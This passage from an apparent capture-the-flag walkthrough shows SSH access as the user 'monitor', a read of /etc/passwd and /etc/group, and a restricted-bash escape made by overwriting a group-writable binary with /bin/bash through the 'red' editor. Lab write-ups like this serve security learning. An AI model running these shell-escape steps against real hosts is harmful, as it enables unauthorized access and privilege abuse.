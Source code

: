 The _/home/nobody/.ssh/authorized_keys_ file shows that there is a user called _monitor_ that can access the host with the key from before:
```markdown
ssh -i .monitor monitor@127.0.0.1
```

This gives access into another box and greets us with a message that it is a **Restricted Bash**:
 ```markdown
-rbash: alias: command not found
```

### Escaping Restricted Shell

Lets look at the path what is possible to execute:
 ```markdown
echo $PATH

/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1
```

Binaries in _/home/monitor/bin_:
- ls, most, red, nano

In _/home/monitor/app-dev/_ is a binary _logMonitor_ and the directory has the source code files for this binary.
 ```markdown
-rwxrwx--- 1 app-dev monitor   13704 Jul 24  2018 logMonitor
```

It is writeable by the user _app-dev_ and members of the group _monitor_.
Lets check if our user is in the group:
```markdown
rnano /etc/passwd

monitor:x:1001:1001:User
```
```markdown
rnano /etc/group

monitor:x:1001:
```

The user is in the group and thus it is possible to rewrite the file with _/bin/bash_:
```markdown
red /bin/bash

1099016
w app-dev/logMonitor
1099016
q
```

After executing _logMonitor_ it executes _bash_ and the restricted shell is escaped.
Lets modify the _PATH_ so system binaries can be used more comfortably:
```markdown
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
